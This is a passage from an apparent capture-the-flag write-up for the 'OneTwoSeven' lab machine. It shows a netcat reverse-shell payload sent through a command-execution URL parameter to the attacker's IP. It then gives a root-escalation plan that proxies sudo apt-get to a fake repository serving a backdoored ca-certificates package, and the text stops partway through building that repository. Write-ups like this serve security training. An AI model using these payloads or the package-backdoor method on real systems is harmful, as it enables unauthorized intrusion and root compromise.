 With remote command execution, we can get ourselves a low-privilege shell with `nc`.

```
http://onetwoseven.htb:60080/menu.php?addon=ots-endgame.php&0=nc 10.10.12.49 1234 -e /bin/bash
```


{% include image.html image_alt="aec0f561.png" image_src="/208c1863-9d75-45f1-9a63-a56e87f6c38c/aec0f561.png" %}


Let's [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to a full TTY.


{% include image.html image_alt="883cd4ed.png" image_src="/208c1863-9d75-45f1-9a63-a56e87f6c38c/883cd4ed.png" %}


## Privilege Escalation

During enumeration of `www-admin-data`'s account, I noticed that `www-admin-data` is able to `sudo` `apt-get update`, `apt-get upgrade`, and preserve certain environment variables.


{% include image.html image_alt="2097c992.png" image_src="/208c1863-9d75-45f1-9a63-a56e87f6c38c/2097c992.png" %}


And if you check `/etc/apt/source.list.d/onetwoseven.list` then the road to `root` is imminent.


{% include image.html image_alt="7ee640f6.png" image_src="/208c1863-9d75-45f1-9a63-a56e87f6c38c/7ee640f6.png" %}


Here's the game plan:

1. Map `packages.onetwoseven.htb` to `127.0.0.1` in `/etc/hosts`
2. Set up a HTTP proxy server on my attacking machine. Burp will do fine, just change the interface to `tun0`.
3. Set up a fake repository with a package release having a higher version number and a backdoored DEB package.
4. Run `sudo http_proxy=http://10.10.12.49:8080 apt-get update`
5. Run `sudo http_proxy=http://10.10.12.49:8080 apt-get upgrade`
6. Claim the prize.

I guess the question is how do you go about doing Step 3. How's how.

...

First of all, select a package that you want to backdoor. I've selected `ca-certificates`. It's relatively small in size and there's a `config` script executed as `root`.

Next, set up the directory structure on my attacking machine.

```
# mkdir -p devuan/dists/ascii/main/binary-amd64
# mkdir -p devuan/pool/main/c/ca-certificates
```

And since I'm using Kali Linux, I'll download the latest `ca-certificates` from the Kali Linux repository.
